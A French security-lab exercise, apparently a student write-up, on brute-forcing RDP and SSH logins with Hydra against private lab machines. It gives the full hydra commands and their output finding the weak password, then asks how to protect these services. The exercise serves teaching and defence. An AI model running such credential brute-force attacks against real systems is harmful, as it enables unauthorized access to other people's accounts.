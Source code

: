 ## EXERCICE 4 - Attaques par force brute

#### Créez un compte utilisateur nommé jean sur Active Directory affectez lui le mot de passe P@ssw0rd.
#### Activez le bureau à distance sur DC et W11.
#### En utilisant un dictionnaire de mot de passe de votre choix, effectuez une attaque par force brute sur le service RDP (bureau à distance) de DC et/ou de W11. Pour simplifier l'opération, vous pouvez effectuer cette attaque depuis le LAN.
```
$ hydra -t 1 -V -f -l jean -P liste.txt rdp://192.168.33.200
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:26:59
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "toto" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "yolo" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "sepuku" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "ratata" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "bingbong" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.33.200   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.33.200 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 04:27:05
```

#### Utilisez le même type d'attaque sur le service SSH tournant sur WEB en rendant le service accessible depuis le WAN (redirection de port).
```
hydra -l carambole -P liste.txt 10.0.2.15 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:32:15
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:1/p:9), ~3 tries per task
[DATA] attacking ssh://10.0.2.15:22/
[22][ssh] host: 10.0.2.15   login: carambole   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 04:32:23
```

#### Comment pouvez-vous protéger ces accès (RDP et SSH) sans avoir à modifier les mots de passe utilisateur.
